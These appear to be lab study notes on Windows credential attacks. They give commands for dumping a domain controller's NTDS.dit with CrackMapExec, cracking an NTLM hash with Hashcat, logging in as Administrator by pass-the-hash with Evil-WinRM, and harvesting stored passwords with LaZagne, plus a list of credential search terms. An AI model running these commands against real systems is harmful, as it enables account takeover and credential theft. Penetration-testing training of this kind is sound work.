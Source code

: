 #### CrackMapExec command to capture NTDS.dit
```Shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Hash Cracking

#### Cracking a Single Hash with Hashcat
```cmd.exe
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b rockyou.txt
```

### Pass-the-Hash Considerations

#### Pass-the-Hash with Evil-WinRM
```Shell
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


## Credential Hunting in Windows

### Search Centric

#### Key Terms to Search

<input type="checkbox" /> Passwords
<input type="checkbox" /> Username
<input type="checkbox" /> Users
<input type="checkbox" /> Configuration
<input type="checkbox" /> pwd
<input type="checkbox" /> Passphrases
<input type="checkbox" /> User account
<input type="checkbox" /> Passkeys
<input type="checkbox" /> dbcredential
<input type="checkbox" /> Login
<input type="checkbox" /> Keys
<input type="checkbox" /> Creds
<input type="checkbox" /> Passphrases
<input type="checkbox" /> dbpassword
<input type="checkbox" /> Credentials

### Search Tools

#### `Windows Search`
![[Pasted image 20230305111735.png]]

#### Running Lazagne All
```cmd.exe
start lazagne.exe all
```
